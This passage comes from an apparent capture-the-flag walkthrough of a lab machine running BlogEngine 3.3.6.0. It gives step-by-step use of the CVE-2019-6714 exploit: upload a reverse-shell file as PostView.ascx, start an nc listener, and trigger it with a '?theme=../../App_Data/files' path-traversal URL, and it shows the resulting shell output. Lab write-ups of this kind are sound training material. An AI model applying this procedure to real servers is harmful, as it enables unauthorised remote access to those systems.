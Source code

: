 Answer: `3.3.6.0`

## #3.2 Use the exploit database archive to find an exploit to gain a reverse shell on this system. What is the CVE?

_Hint: Look on the exploit database page._

Googling the terms `vulnerability blogengine 3.3.6.0` leads to [https://www.exploit-db.com/exploits/46353](https://www.exploit-db.com/exploits/46353) which is about `CVE-2019-6714`.

Let’s download the [exploit](https://www.exploit-db.com/raw/46353). Read and follow the instructions:

Attack:

First, we set the TcpClient address and port within the method below to 
our attack host, who has a reverse tcp listener waiting for a connection.

Next, we upload this file through the file manager.  In the current (3.3.6)
version of BlogEngine, this is done by editing a post and clicking on the 
icon that looks like an open file in the toolbar.  Note that this file must
be uploaded as PostView.ascx. Once uploaded, the file will be in the
/App_Data/files directory off of the document root. The admin page that
allows upload is:

http://10.10.10.10/admin/app/editor/editpost.cshtml

Finally, the vulnerability is triggered by accessing the base URL for the 
blog with a theme override specified like so:

http://10.10.10.10/?theme=../../App_Data/files

Let’s follow the instructions:

1.  Start by modifying the script so that we report the correct value for IP and port.
2.  Rename your script as `PostView.ascx`
3.  Go to posts ([http://10.10.79.198/admin/#/content/posts](http://10.10.79.198/admin/#/content/posts)) and click on “Welcome to HackPark” to edit this post
4.  From the edit bar on top of the post, click on the “File Manager” icon
5.  Click on the “+ UPLOAD” button and upload the `PostView.ascx` script
6.  Close the file manager and click on “Save”
7.  Now, open your listener (`rlwrap nc -nlvp 1234`)
8.  Go to [http://10.10.79.198/?theme=../../App_Data/files](http://10.10.79.198/?theme=../../App_Data/files)

Check your listener, you should now have a reverse shell.

## #3.3 Using the public exploit, gain initial access to the server. Who is the webserver running as?

$ rlwrap nc -nlvp 1234
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.79.198.
Ncat: Connection from 10.10.79.198:56475.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
whoami
c:\windows\system32\inetsrv>whoami
iis apppool\blog
